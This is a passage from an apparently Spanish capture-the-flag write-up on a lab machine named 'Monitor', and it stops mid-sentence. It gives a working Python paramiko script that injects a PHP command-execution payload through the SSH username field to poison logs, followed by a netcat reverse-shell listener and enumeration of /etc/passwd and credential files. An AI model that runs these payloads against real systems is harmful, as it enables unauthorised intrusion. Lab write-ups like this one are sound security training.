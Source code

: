 Pruebo y pruebo, como el puerto **22** estaba abierto por **ipv6** intento conectarme con usuario cualquiera
```bash
❯ ssh -6 aka@fe80::a00:27ff:fe6e:2704%enp3s0
aka@fe80::a00:27ff:fe6e:2704%enp3s0: Permission denied (publickey).
```
Bueno bueno bueno, veo que al parecer me esta mostrando los registros de conexiones **ssh** que puede acontecer un **Log Poisonig** 
![event-log]({{'/assets/img/Monitor/event-log-ssh.png' | relative_url}})
[RCE with LFI and SSH Log Poisoning](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/)

Despues de estar intentadolo un buen rato, hablando con D4t4s3c, creador de la maquina, vimos que, recientemente actualizaron **ssh** por parte del cliente donde se ha parcheado el enviar caracteres especiales en el campo de usuario, a la hora 
de hacer conexion por ssh. El comando **ssh -6 '<?php system($_GET["cmd"]); ?>'@\<ipv6\>** ya no funciona.

Tuve que hacer este script, que manda la carga sin problemas y se puede acontecer el **RCE** 

* Script en python3 peticion de cliente para **ssh** **'Log Poisoning - RCE'**

```python
#!/usr/bin/env python3
#encoding: utf-8
import paramiko
 
def client():
 
    host = 'fe80::a00:27ff:fe6e:2704%wlo1'
    username = '<?php system($_GET["cmd"]); ?>'
    password = '4ever'
    client = paramiko.SSHClient()
    try:
        client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        client.connect(host, username=username, password=password)
    except paramiko.ssh_exception.BadAuthenticationType:
        pass
client()
```
Ejecuto el escript con **python3** no devuelve output ni nada, simplemente manda la peticion con la carga en el nombre de usuario.
![log-poisoning]({{'/assets/img/Monitor/www-data.png' | relative_url}})
Se puede ver que tengo ejecucion de comandos y que estoy como **www-data**
![log-poisoning]({{'/assets/img/Monitor/reverse-command.png' | relative_url}})
Hora de una reverse shell.
```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.2.149] from (UNKNOWN) [192.168.2.17] 39196
whoami
www-data
```
En este punto aplico el tratamiento de **tty** para operar con una shell mas funcional.
```bash
www-data@monitor:/var/www/site/.admin$ cat /etc/passwd | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
kevin:x:1000:1000:kevin:/home/kevin:/bin/bash
```
Identifico en el **passwd** los usuarios del sistema y solo veo a **kevin** y **root**.
```bash
www-data@monitor:/var/www/site/.admin$ grep -r --color "kevin" /etc 2>/dev/null
/etc/apache2/.htpasswd:#kevin:$u***************He
```
Dando vuelta un rato y divagando en cosas que no me llevan a nada, buso en el direcctorio **/etc** archivos que contengan el nombre de **kevin**, 